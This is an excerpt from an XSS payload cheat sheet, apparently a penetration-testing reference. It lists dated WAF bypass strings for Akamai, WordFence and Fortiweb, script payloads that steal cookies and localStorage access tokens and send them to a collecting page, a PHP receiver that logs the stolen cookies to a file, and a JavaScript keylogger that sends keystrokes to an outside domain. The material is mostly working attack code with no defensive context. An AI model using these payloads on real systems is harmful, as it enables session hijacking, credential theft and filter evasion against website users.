 ### Akamai WAF Bypass

#### 18th June 2018

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

#### 28th October 2018

```html
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### WordFence WAF Bypass

#### 12th September 2018

```javascript
<a href=javas&#99;ript:alert(1)>
```

### Fortiweb WAF Bypass

#### 9th July 2019

```javascript
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```

## Exploit XSS

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### Javascript keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```
